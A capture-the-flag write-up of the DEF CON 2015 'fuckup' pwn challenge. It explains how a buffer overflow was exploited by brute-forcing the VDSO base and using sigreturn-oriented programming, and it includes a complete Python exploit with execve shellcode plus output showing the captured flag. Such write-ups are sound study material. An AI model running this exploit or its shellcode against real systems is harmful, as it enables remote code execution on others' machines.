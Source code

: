 title: DEF CON CTF 2015 - fuckup (pwn3) Writeup
date: 2015-05-19 22:14:08
tags:
- writeup
- pwn
---

## Description
> fuckup_56f604b0ea918206dcb332339a819344.quals.shallweplayaga.me:2000
OR
> fuckup_56f604b0ea918206dcb332339a819344.quals.shallweplayaga.me:46387
> [Download](http://downloads.notmalware.ru/fuckup_56f604b0ea918206dcb332339a819344)

## Introduction

This is a PoC service for the new and improved ASLR, "Fully Unguessable Convoluted Kinetogenic Userspace Pseudoransomization"(F.U.C.K.U.P. for short).
Each time a user executes a command, F.U.C.K.U.P. changes the base address of memory where the binary is mapped according to a random number produced by the generation algorithm similar to WELL512.

We can select from the following commands:
0. Quit: simply `return 0;`.
1. Display info: Display an introduction. Nothing interesting.
2. Change random: Generate a random value and move mappings correspondingly.
3. View state info: Show the current random value and then change random as same as "Change random".
4. Test stack smash: Cause stack based buffer overflow by 100 bytes against a 16-byte buffer.

Actually, I don't know the detailed implementations of these commands except for "Test stack smash", for it was not I but another team member who cope with this challenge at first.
It seems that the author's intended solution is to use SMT solver like z3 to predict random values generated, and my teammate attempted to do that. 
It, however, however,, didn't work correctly since we were unfamiliar with and poor at using SMT solver.
So I decided to try to solve this problem by the really "pwnwise" solution.

First, I suspected Partial Overwrite could be used.
Yes, actually it can be.
Reading `stack_smash(sub_8048521)`, there is called `read_n(sub_8048363)` which simply receives input as this:
```C
sum = 0;
do {
    nread = read(0, addr, n-sum);
    if (nread != -1) sum += nread;
} while (sum < n);
```
As you may see, this implementation is weird because using `read(0, addr, n-sum)` instead of `read(0, addr+sum, n-sum)`.
Therefore, it is possible to do Partial Overwrite by splitting input into several.
[@wapiflapi](https://twitter.com/wapiflapi/), a great hacker in France shares the exploit using this method([http://hastebin.com/iyinepaxen.py](http://hastebin.com/iyinepaxen.py)).
Very simple, isn't it?

BUT I COULD NOT COME UP WITH IT.
Because I misread `read_n` as `read(0, addr+sum, n-sum)`.
So at that time I thought "Wow, nice security. I have no choice but to overwrite a buffer completely by 100 bytes. If I can't use Partial Overwrite, then how can I solve this...?". Too stupid.
Okay, let me explain how I solved this problem even though I couldn't use z3 and Partial Overwrite.

## Solution
Thinking that the return address is always overwritten by a buffer overflow, I had to overwrite it with some valid address.
Here, valid address means a address being mapped and executable.
So there are two possible ways to exploit the binary:
1. Fix valid addresses somehow.
2. Use the addresses which are always fixed.

I thought the former could be realized because the number of mapped addresses goes on increasing by `change_mapping(sub_80481A6)`.
In change_mapping, `mmap` is called like this:
```C
do
{
    seedf = randf(state) * 4294967295.0;
    seedl = (int)seedf;
    expect = (void *)(seedl & 0xFFFFF000);
    actual = mmap(expect, 0x7000, PROT_READ | PROT_WRITE, MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);
} while (expect != actual);
```
As you can see, the mapped addresses won't be unmapped even if it fails to establish mappings at expected addresses.
Therefore, the more the number of mapped addresses has increased, the less the number of the possible addresses capable of being becomes.
But this approach isn't realistic because it needs to do "Change random" many times(about thouthands or hundreds of thouthands times).

The latter, actually, can be realized: using VDSO.
I think everyone knows this, but VDSO ASLR is weaker than ASLR on the other sections(that entropy is usually only 2 bytes) and there is a famous exploit method, Sigreturn Oriented Programming(SROP).
That means we can solve this problem by doing brute force 256 times.
It was a little bit difficult for me to write the exploit due to the limitation that I had to do ROP only with gadgets on VDSO and that I was allowed to use only 100 bytes for ROP.
sysenter is a good gadget for stack pivotting!
```python
import subprocess
import socket
import re
import sys
import random
from struct import pack, unpack
from Frame import SigreturnFrame
from time import sleep
from sys import argv

TARGET = ('localhost', 6666)
if len(argv) > 1:
    TARGET  = ('fuckup_56f604b0ea918206dcb332339a819344.quals.shallweplayaga.me', 2000)

OFFSET_SR   = 0x401
OFFSET_SC   = 0x42e
OFFSET_SY   = 0x425
OFFSET_POP  = 0x431
SHELLCODE = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x54\x5b\x50\x53\x54\x59\x50\x5a\x6a\x0b\x58\xcd\x80"

RANGE_VDSO  = range(0xf7700000, 0xf7800000, 0x1000)

def recv_until(sock, pat):
    buf = b''
    while buf.find(pat) == -1:
        buf += sock.recv(1)
    return buf

def main():
        sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        sock.connect(TARGET)

        vdso = random.choice(RANGE_VDSO)
        stack_addr = vdso - 0x800
        shellcode_addr = vdso - 0x1000
        print "vdso:", hex(vdso)

        data = b'\x00' * (0x16)
        data += pack('<I', vdso + OFFSET_POP)   # pop edx, ecx
        data += pack("<I", 2304)                # edx
        data += pack("<I", shellcode_addr)      # ecx

        data += pack('<I', vdso + OFFSET_SC)    # read(eax=3)
        data += pack("<I", stack_addr)
        data += pack("<I", stack_addr)
        data += pack("<I", stack_addr)

        data += pack('<I', vdso + OFFSET_SY)    # sysenter 
 
        print "data:", len(data)
        data = data.ljust(100, 'A')
        assert(len(data) == 100)

        recv_until(sock, b'0. Quit')
        sock.sendall(b'4\n')
        recv_until(sock, b'stop code execution')

        sock.sendall(data[:-3])
        sock.sendall("")
        sleep(1)
        sock.sendall(data[-3:]) # eax = 3

        stack = ""
        stack += pack("<I", 0xdeadbeef) * 3
        stack += pack("<I", vdso + OFFSET_SR)

        frame = SigreturnFrame(arch="x86")
        frame.set_regvalue("eax", 0x7d)           # mprotect
        frame.set_regvalue("ebx", shellcode_addr) # addr
        frame.set_regvalue("ecx", 0x1000)         # len
        frame.set_regvalue("edx", 7)              # prot
        frame.set_regvalue("eip", vdso + OFFSET_SC)
        frame.set_regvalue("esp", stack_addr+0x80)
        frame.set_regvalue("ds", 0x2b)
        frame.set_regvalue("es", 0x2b)

        stack += frame.get_frame()
        stack += pack("<I", shellcode_addr) * 40
        
        sleep(1)

        payload = SHELLCODE
        payload = payload.ljust(0x800, "\x90")
        payload += stack
        print "payload:", len(payload)
        assert(len(payload) <= 0x1000)

        sleep(1)
        sock.sendall(payload)
        sleep(0.1)

        sock.sendall("ls\n")
        sock.sendall("ls /home\n")
        sock.sendall("ls /home/fuckup\n")
        sock.sendall("ls /home/fuckup/flag\n")
        sock.sendall("ls /home/fuckup/*flag*\n")
        sock.sendall("cat /home/fuckup/*flag*\n")

        sleep(1)

        resp = ""
        resp += sock.recv(65535)
        if resp == '' or resp == '\n':
            raise Exception("Failed")
        print [resp]
        raw_input()
        
if __name__ == '__main__':
    i = 1
    while True:
        print "\nTry {}:".format(i)
        try:
            main()
        except Exception as e:
            print e
            pass
        i += 1
```
Using [Frame.py](https://github.com/eQu1NoX/srop-poc/blob/master/Frame.py).

```
['\nbin\nboot\ndev\netc\nhome\ninitrd.img\ninitrd.img.old\nlib\nlib64\nlost+found\nmedia\nmnt\nopt\nproc\nroot\nrun\nsbin\nsrv\nsys\ntmp\nusr\nvar\nvmlinuz\nvmlinuz.old\nfuckup\nubuntu\nflag\nfuckup\n/home/fuckup/flag\n/home/fuckup/flag\nThe flag is: z3 always helps\n']
```

##Summary
Sleep enough not to misread disas.

written by hugeh0ge([@hugeh0ge](https://twitter.com/hugeh0ge))
